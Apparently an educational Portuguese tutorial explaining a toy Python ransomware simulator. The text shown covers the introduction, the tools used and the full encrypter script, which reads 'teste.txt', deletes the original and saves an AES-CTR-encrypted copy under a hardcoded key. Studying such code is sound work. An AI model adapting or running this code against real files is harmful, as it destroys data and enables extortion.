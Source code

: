 # Documento: Análise e Automação de Código de Criptografia/Descriptografia (Ransomware)

## Introdução

Este documento tem como objetivo fornecer uma explicação detalhada do funcionamento de um código simples que simula um ataque de *ransomware*, com a criptografia e descriptografia de arquivos. Também discutiremos como melhorar esse código para automação, exemplos de entrada e saída, além de abordar as ferramentas utilizadas, os riscos relacionados a ataques do tipo ransomware e medidas para mitigar esses riscos.

O ransomware é um tipo de malware que criptografa os dados do usuário e exige um resgate (normalmente em criptomoeda) para fornecer a chave de descriptografia. Este código serve como um exemplo didático para entender como funcionam esses ataques.

## Ferramentas Utilizadas

- **Python**: Linguagem de programação utilizada para implementar os scripts.
- **pyaes**: Biblioteca Python usada para criptografia AES (Advanced Encryption Standard), com o modo de operação CTR (Counter Mode).
- **os**: Biblioteca padrão do Python utilizada para manipulação de arquivos e diretórios.

### Módulos Importados
- **os**: Permite o gerenciamento de arquivos, como abrir, ler, excluir e escrever arquivos.
- **pyaes**: Implementa a criptografia e descriptografia usando o algoritmo AES no modo CTR.

## Código - Explicação Detalhada

### Criptografador (`encripter.py`)

```python
import os
import pyaes

# Abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remover o arquivo original
os.remove(file_name)

# Chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Criptografar o arquivo
crypto_data = aes.encrypt(file_data)

# Salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()
```
